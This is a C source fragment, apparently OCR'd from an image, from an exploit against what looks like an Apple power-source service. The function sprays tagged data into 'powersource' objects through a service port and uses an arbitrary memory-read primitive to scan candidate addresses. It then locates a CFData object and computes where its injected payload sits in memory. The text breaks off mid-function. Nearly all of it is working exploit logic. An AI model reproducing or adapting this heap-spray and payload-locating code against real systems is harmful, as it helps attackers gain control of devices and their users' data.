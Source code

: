```c
uint64_t do_get_payload_address(uint64_t *diff,int *ps_id)
{
    uint64_t paddr = 0,cfaddr = 0;
    int pscnt = 1;
    int ps[pscnt];
    uint64_t guess = 0;
    uint32_t size = 0x2000;//getpagesize();
    //uint32_t size = getpagesize();
    uint8_t *p = do_dummy_allocate_p(size, 0xf5);
    uint64_t *val = (uint64_t*)&p[0];
    uint32_t tagsize = size;
    // uint32_t tagsize = size -payload_size;
    uint32_t start = -1;
    uint64_t shift = 0;
    //memcpy(&p[payload_size],main_payload,payload_size);

    uint64_t tagged = 0;
repeat:
    // avoid inspecting freed memory
    tagged = (0xbadc0deb00000000 | (shift++ << 56));
    // make sure that we condidates addresses with our payload
    for(int i=0; i<pscnt; i++) {
        // <tag> <ps id> <offset>
        for(int j=0; j<(tagsize/8); j++)
            val[j] = tagged | j | ((i+1) << 16) ;

        ps[i] = -1;
        do_update_ps(service_port, &ps[i],100,p,size);
        //printf("Creating powersource object with id = 0x%x, index = %d\n",ps[i],i+1);
    }

    uint64_t off = 0,code =0;
    for(int i=0;i<collected;i++) {
        uint64_t guess = 0;
        uint32_t readsize = 0x100;
        if(!READ_MEMORY(condidates[i], readsize, 0xdead+i, &guess))
            continue;
#if 0
        DumpHex((const void*)guess, 0x100);
#endif
        off = find_location_by_value(guess,readsize,tagged,&code);
        if(off == 0) {// || (target-off-0x30) & 0xfff) {
            continue;
        }

        // get the object id + payload address
        start = (code & 0xffff0000) >> 16;
        cfaddr = condidates[i] - off - 0x30; // 0x30 for CFData metadata, cfaddr must point to the isa pointer
        //payload_address = cfaddr + 0x30 + tagsize; // where our payload is located

        paddr = cfaddr & ~(getpagesize()-1);
        *diff = cfaddr - paddr;
#ifdef MEMDBG
        printf("The target powersource object is : %d\n",start);
        printf("We Found a potential memory location : 0x%llx\n",condidates[i]);

        printf("We Got a reliable CFData Object : 0%llx\n",cfaddr);

        printf("READING CFData object content : \n");
        Iter = 1000;
        if(!READ_MEMORY(cfaddr, readsize, 0xdead+i, &guess)) {
            printf("failed\n");
```